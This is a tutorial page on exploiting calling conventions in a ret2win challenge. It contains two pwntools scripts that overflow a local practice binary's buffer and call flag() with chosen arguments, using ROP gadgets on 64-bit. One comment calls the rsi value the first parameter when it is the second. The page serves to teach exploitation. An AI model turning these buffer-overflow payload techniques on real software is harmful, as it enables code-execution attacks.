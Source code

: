 ```yaml
---
description: Utilising Calling Conventions
---
```


# Exploiting Calling Conventions

{% file src="../../../.gitbook/assets/exploiting\_with\_params.zip" caption="ret2win with Parameters" %}

### 32-bit

The program expects the stack to be laid out like this before executing the function:

```text
return pointer    param1    param2    param3
```

So why don't we provide it like that? As well as the function, we also pass the return address and the parameters.

```text
<flag address>    <ret. pointer>    <param1>    <param2>
```

Everything after the address of `flag()` will be part of the stack frame for the next function as it is **expected** to be there - just instead of using `push` instructions we just overwrote them manually.

```python
from pwn import *

p = process('./vuln-32')

payload = b'A' * 52            # Padding up to EIP
payload += p32(0x080491c7)     # Address of flag()
payload += p32(0x0)            # Return address - don't care if crashes when done
payload += p32(0xdeadc0de)     # First parameter
payload += p32(0xc0ded00d)     # Second parameter

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

### 64-bit

Same logic, except we have to utilise the gadgets we talked about previously to fill the required registers \(in this case `rdi` and `rsi` as we have two parameters\).

We have to fill the registers _before_ the function is called

```python
from pwn import *

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9


payload = b'A' * 56            # Padding
payload += p64(POP_RDI)        # pop rdi; ret
payload += p64(0xdeadc0de)     # value into rdi -> first param
payload += p64(POP_RSI_R15)    # pop rsi; pop r15; ret
payload += p64(0xc0ded00d)     # value into rsi -> first param
payload += p64(0x0)            # value into r15 -> not important
payload += p64(0x40116f)       # Address of flag()
payload += p64(0x0)

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

